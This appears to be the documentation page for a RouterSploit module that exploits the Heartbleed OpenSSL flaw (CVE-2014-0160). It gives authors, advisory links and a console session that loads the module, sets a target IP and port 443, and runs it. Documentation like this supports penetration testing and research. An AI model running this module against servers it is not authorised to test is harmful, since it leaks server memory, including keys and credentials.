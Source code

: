 # Heartbleed

## Description
Exploits Hearbleed vulnerability.

## Authors
* Jared Stafford <jspenguin[at]jspenguin.org> # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [http://www.cvedetails.com/cve/2014-0160](http://www.cvedetails.com/cve/2014-0160)
* [http://heartbleed.com/](http://heartbleed.com/)
* [https://www.us-cert.gov/ncas/alerts/TA14-098A](https://www.us-cert.gov/ncas/alerts/TA14-098A)
* [https://gist.github.com/takeshixx/10107280](https://gist.github.com/takeshixx/10107280)

## Vulnerable devices
* Multi

## Usage
```
rsf > use exploits/multi/heartbleed
rsf (Heartbleed) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target IP address e.g. 192.168.1.1
   port       443                  Target port


rsf (Heartbleed) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Heartbleed) > run
[*] Running module...
```
